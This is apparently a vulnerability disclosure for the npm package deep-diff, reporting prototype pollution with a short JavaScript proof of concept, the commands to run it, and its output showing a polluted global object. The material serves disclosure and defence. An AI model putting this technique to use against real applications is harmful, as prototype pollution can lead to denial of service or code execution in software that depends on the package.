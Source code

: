 # Description

`deep-diff` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var deepDiff = require("deep-diff")
var a = {name: "xyz"};
var b = JSON.parse(JSON.stringify(a));
b.__proto__.name = "Yes! Its Polluted";
deepDiff.diff(a, b);
console.log({}.name) 
```

2. Execute the following commands in another terminal:

```bash
npm i deep-diff # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```

